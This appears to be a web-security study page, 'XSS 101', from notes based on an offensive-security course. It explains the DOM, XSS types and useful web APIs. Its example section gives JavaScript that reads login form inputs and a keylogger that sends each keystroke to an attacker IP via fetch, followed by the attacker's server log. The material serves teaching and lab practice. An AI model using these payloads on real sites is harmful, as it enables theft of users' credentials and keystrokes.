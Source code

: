 # XSS 101

{% hint style="info" %}
**Cross-Site Scripting (XSS)** is a vulnerability where an attacker injects malicious scripts into web pages viewed by other users, typically through input fields or URL parameters.
{% endhint %}

{% hint style="danger" %}
This can lead to the theft of cookies, session tokens, or other sensitive data, and can also allow attackers to perform actions on behalf of the user or deface web pages.
{% endhint %}

{% hint style="success" %}
Sanitize and escape user inputs, use Content Security Policy (CSP) headers, and validate input on both client and server sides to prevent unauthorized script execution.
{% endhint %}

## General Info

In layman's terms when a web page is loaded, the browser processes its HTML code, and creates a [**Document Object Model (DOM)**](https://developer.mozilla.org/en-US/docs/Web/API/Document_Object_Model) of the page, aka **DOM tree** (Figure1).

<figure><img src="../../../.gitbook/assets/html2dom.png" alt=""><figcaption><p>Figure 1: The HTML to DOM process.</p></figcaption></figure>

JavaScript is used to access and modify all of the DOM's elements in order to create dynamic HTML content. **XSS's goal is to inject JavaScript code for accessing and/or modifying the page's DOM**. For instance, if our goal was to modify the page's header (`h1`) element, we could do this using JavaScript.

```javascript
// modifying the h1 element
document.querySelector('h1').textContent = 'Hello, DOM!';
```

## XSS Types

There are mainly two XSS classifications (Figure 2):

1. Based on the level of the payload's persistence: [**Reflected**](reflected.md) vs. [**Stored**](stored.md).
2. Based on which location the payload is outputted: **Server** vs. [**Client**](dom-based.md) (_aka_ _**DOM-based**_).&#x20;

<figure><img src="../../../.gitbook/assets/xss_classification.png" alt=""><figcaption><p>Figure 2: XSS classifications.</p></figcaption></figure>

{% hint style="info" %}
* [Don't use `alert()`](https://portswigger.net/research/alert-is-dead-long-live-print), but rather `print()` or `prompt()`.
* Check for **HTML injection** first and then for XSS.
{% endhint %}

## Web APIs

There are many built-in [web APIs](https://developer.mozilla.org/en-US/docs/Web/API), but the following are the most useful from an XSS-standpoint.

<table><thead><tr><th width="132">API</th><th>Description</th></tr></thead><tbody><tr><td><a href="https://developer.mozilla.org/en-US/docs/Web/API/Console_API"><code>console</code></a></td><td>Used for <strong>debugging</strong> tasks, such as logging messages (<code>console.log</code>).</td></tr><tr><td><a href="https://developer.mozilla.org/en-US/docs/Web/API/Window"><code>window</code></a></td><td>Represents a window containing a DOM object. The <code>document</code> property points to the DOM document loaded in that window. Some useful properties are <code>localStorage</code>, <code>location</code>, and <code>alert</code>.</td></tr><tr><td><a href="https://developer.mozilla.org/en-US/docs/Web/API/Document"><code>document</code></a></td><td>Represents any web page loaded in the browser and serves as an entry point in the web page's content, which is the DOM tree. This is <strong>the most effective interface for exploiting an XSS flaw</strong>.</td></tr><tr><td><a href="https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API"><code>fetch</code></a></td><td>Allows <strong>fetching local and remote resources</strong>. It is <strong>non-blocking</strong>, i.e., the UI won't be locked up while the request is made and the response is returned. It does not return the data right away, instead, it <strong>returns a promise</strong> to complete the execution. To access the response, we need to use the <code>then</code> method and pass in a function to execute when the response is available.</td></tr></tbody></table>

## Example

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

We have an app which contains a login form and our goal is to extract the `username` and `password` field values. We can use the `document` and the `console` APIs to achieve that (Figure 3).

{% hint style="info" %}
In HTML, text boxes are created using the [`input`](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/input) tag.
{% endhint %}

```javascript
// save the returned array into a variable
let inputs = document.getElementsByTagName("input")
// loop through the elements and extract their value
for (let input of inputs) {
  // log each value to the console
  console.log(input.value)
```

<figure><img src="../../../.gitbook/assets/web_xss_101_1.png" alt=""><figcaption><p>Figure 3: Extracting the values of the targeted fields.</p></figcaption></figure>

We might also want to create a custom keylogger to extract information (Figure 4).

```javascript
// a function the logs keypresses to the console
function logKey(event){
    console.log(event.key)
}
// execute the function every time a key is pressed
document.addEventListener('keydown', logKey);
```

<figure><img src="../../../.gitbook/assets/web_xss_101_2.png" alt=""><figcaption><p>Figure 4: Creating a custom keylogger.</p></figcaption></figure>

If we send the above script to our target the keystrokes will be logged into their browser's console, but we won't have access to it. We can modify our script and use the `fetch` API to exfiltrate the data.

```javascript
// a function the sents keypresses to the our server via a GET request
function logKey(event){
    fetch("http://192.168.45.214/k?key=" + event.key);
}
// execute the function every time a key is pressed
document.addEventListener('keydown', logKey);
```

```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.168.101 - - [04/Aug/2024 10:21:55] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:55] "GET /k?key=I HTTP/1.1" 404 -
192.168.168.101 - - [04/Aug/2024 10:21:55] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:55] "GET /k?key= HTTP/1.1" 404 -
192.168.168.101 - - [04/Aug/2024 10:21:55] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:55] "GET /k?key=L HTTP/1.1" 404 -
192.168.168.101 - - [04/Aug/2024 10:21:56] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:56] "GET /k?key=i HTTP/1.1" 404 -
<SNIP>
```
